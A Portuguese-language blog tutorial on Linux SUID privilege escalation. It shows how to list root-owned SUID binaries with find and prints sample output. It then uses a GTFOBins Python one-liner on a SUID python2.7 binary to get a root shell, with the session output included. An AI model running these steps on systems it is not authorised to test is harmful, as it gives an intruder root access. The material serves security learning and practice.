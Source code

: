 ```yaml
---
layout: post
title:  "SUID Privilege Escalation"
date:   2020-09-07 17:30:00 -0300
categories: hacking
author: "ReddyyZ"
lang: pt-BR
tags: [privilege escalation, linux]
reading_time: 1 minute
---
```


Privilege escalation é um tipo de vulnerabilidade na qual o atacante consegue elevar seus privilégios para root ou algum outro usuário.<br>
Nesse artigo você vai aprender sobre como encontrar e explorar um privilege escalation.

## SUID Privilege Escalation

### O que é o SUID

BIT SUID é um tipo de permissão especial na qual o arquivo pode executar outros comandos como o usuário dono do arquivo.

![BIT SUID](/assets/images/suid.jpg)

Vamos a um exemplo:

O root é dono de um arquivo que executa o comando passado por argumento, este arquivo tem o bit SUID e todos os usuários tem permissão de executa-lo.

Se um usuário comum usar esse script para executar um comando, este comando será executado como root por causa do bit SUID.


### Encontrando arquivos com o bit SUID

Agora que já entendemos como funciona o bit SUID, vamos encontrar os arquivos com o bit SUID e que o dono seja o root.

Para isso usaremos uma ferramenta que já vem com o linux chamada find, vamos ao comando.
```sh
find / -user root -perm /4000 2>/dev/null
```
<button class="copy" onClick="copy_to_clip2('find / -user root -perm /4000 2>/dev/null')">Copiar comando</button>

Explicando o comando:

Especifica o dono do arquivo `-user root`<br>
Procura por arquivos com o bit SUID `-perm /4000`<br>
Esconde os erros `2>/dev/null`

Resultado:

```sh
reddyyz@fsociety~$ find / -user root -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/chromium/chrome-sandbox
/usr/lib/xorg/Xorg.wrap
/usr/libexec/spice-client-glib-usb-acl-helper
/usr/share/code/chrome-sandbox
/usr/sbin/mount.cifs
/usr/sbin/mount.nfs
/usr/sbin/pppd
/usr/bin/mount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/python2.7
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/vncserver-x11
/usr/bin/kismet_cap_linux_wifi
/usr/bin/chfn
/usr/bin/bwrap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/kismet_cap_linux_bluetooth
/usr/bin/ntfs-3g
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/kismet_cap_nrf_mousejack
/usr/bin/Xtightvnc
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin64/vmware-user-suid-wrapper
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin32/vmware-user-suid-wrapper
```
Esses são todos os arquivos com permissão SUID que o dono é o root.

### Encontrando e explorando um privilege escalation

Olhando esses arquivos um que chama atenção é o `/usr/bin/python2.7`.<br>
Vamos olhar se existe algum exploit conhecido para o python no [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), site com várias formas de privilege escalation.

![GTFOBins Python](/assets/images/gtfobins-python.PNG)

E achamos uma forma de escalar nossos privilégios.<br>
Vamos executar o comando `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```sh
reddyyz@fsociety:~$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
```
<button class="copy" onClick="document.get">Copiar comando</button>

E conseguimos escalar nossos privilégios com sucesso!